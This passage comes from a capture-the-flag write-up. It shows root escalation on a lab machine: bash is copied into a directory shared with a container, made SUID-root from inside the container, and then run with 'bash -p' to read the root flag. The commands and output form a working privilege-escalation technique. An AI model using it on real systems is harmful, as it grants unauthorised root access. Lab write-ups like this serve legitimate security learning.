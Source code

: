 ### Creating a SUID binary inside /logs

Copying the `/bin/bash` inside `/home/claire-r/timeTracker-src/logs` from the host.
```console
claire-r@ctf:~/timeTracker-src/logs$ cp /bin/bash .
```

From the container, changing the owner for `bash` binary to `root` and setting the `suid` bit.

```console
root@de0610f51845:/logs# chown root:root bash
root@de0610f51845:/logs# chmod 4777 bash
```
Now we have a `bash` binary with `suid` bit set.

```console
claire-r@ctf:~/timeTracker-src/logs$ ls -la 
total 1168
drwxrw-rw- 2 claire-r claire-r    4096 Jan 19 23:36 .
drwxrwxr-x 6 claire-r claire-r    4096 Dec 22  2022 ..
-rwsrwxrwx 1 root     root     1183448 Jan 19 23:36 bash
-rw-r--r-- 1 root     root         130 Jan 19 23:30 tt.log
```

### Shell as root

Using the suid bash binary we created, we are able to get a shell as root and read the root flag.

```console
claire-r@ctf:~/timeTracker-src/logs$ ./bash -p
bash-5.0# id
uid=1001(claire-r) gid=1001(claire-r) euid=0(root) groups=1001(claire-r)
bash-5.0# wc -c /root/root.txt
38 /root/root.txt
```
